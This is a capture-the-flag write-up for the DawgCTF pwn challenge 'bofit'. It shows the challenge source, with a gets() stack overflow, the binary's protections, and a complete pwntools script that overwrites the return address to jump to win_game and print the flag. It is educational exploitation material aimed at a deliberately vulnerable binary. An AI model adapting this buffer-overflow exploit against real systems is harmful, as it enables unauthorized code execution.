

## Bofit

**Category: Pwn**



You're provided with a binary `bofit` that you have to exploit and the source code `bofit.c` for you to audit it.

# Source code

```
#include <stdio.h>
#include <stdbool.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>

void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}

int play_game(){
	char c;
	char input[20];
	int choice;
	bool correct = true;
	int score = 0;
	srand(time(0));
	while(correct){
		choice = rand() % 4;
		switch(choice){
			case 0:
				printf("BOF it!\n");
				c = getchar();
				if(c != 'B') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 1:
				printf("Pull it!\n");
				c = getchar();
				if(c != 'P') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 2:
				printf("Twist it!\n");
				c = getchar();
				if(c != 'T') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 3:
				printf("Shout it!\n");
				gets(input);
				if(strlen(input) < 10) correct = false;
				break;
		}
		score++;
	}
	return score;
}

void welcome(){
	char input;
	printf("Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes\n");
	printf("You'll have a second to respond to a series of commands\n");
	printf("BOF it: Reply with a capital \'B\'\n");
	printf("Pull it: Reply with a capital \'P\'\n");
	printf("Twist it: Reply with a capital \'T\'\n");
	printf("Shout it: Reply with a string of at least 10 characters\n");
	printf("BOF it to start!\n");
	input = getchar();
	while(input != 'B'){
		printf("BOF it to start!\n");
		input = getchar();
	}
	while((input = getchar()) != '\n' && input != EOF);
}

int main(){
	int score = 0;
	welcome();
	score = play_game();
	printf("Congrats! Final score: %d\n", score);
	return 0;
}
```

Protections:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Binary details:
```
bofit: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=599c2754819e660a71375162cc1cefb212ab8f16, for GNU/Linux 3.2.0, not stripped
```

We can spot in `play_game` function when we get `Shout it` we can write with gets to input buffer. So we have a classic buffer overflow. Let's exploit it then.

```
from pwn import *

p = remote('umbccd.io', 4100)
#for local testing
#p = process('./bofit')

# Print welcome message
log.info(p.recvuntil('start!'))

# Enter BOF it mode
p.sendline('B')

# Print empty line
log.info(p.recvline())

# Play the game by his rules until we get shout it.
while True:
	ans = p.recvline().decode()
	log.info(ans)
	if "Shout" in ans:
		log.info("Exploit time")
		break
	if "BOF" in ans:
		p.sendline('B')
		continue
	if "Twist" in ans:
		p.sendline('T')
		continue
	if "Pull" in ans:
		p.sendline('P')
		continue

# Just point RIP to win_game function which can be found in 0x401256 addr.
# Add a \x00 byte for bypassing strlen and termiante loop.
p.sendline(b"A"*8 + b"\x00" + b"A"*47 + p64(0x401256) + b"\x00")
# Get the flag
log.info(p.recvline())

p.close()
```

**Flag: DawgCTF{n3w_h1gh_sc0r3!!}**
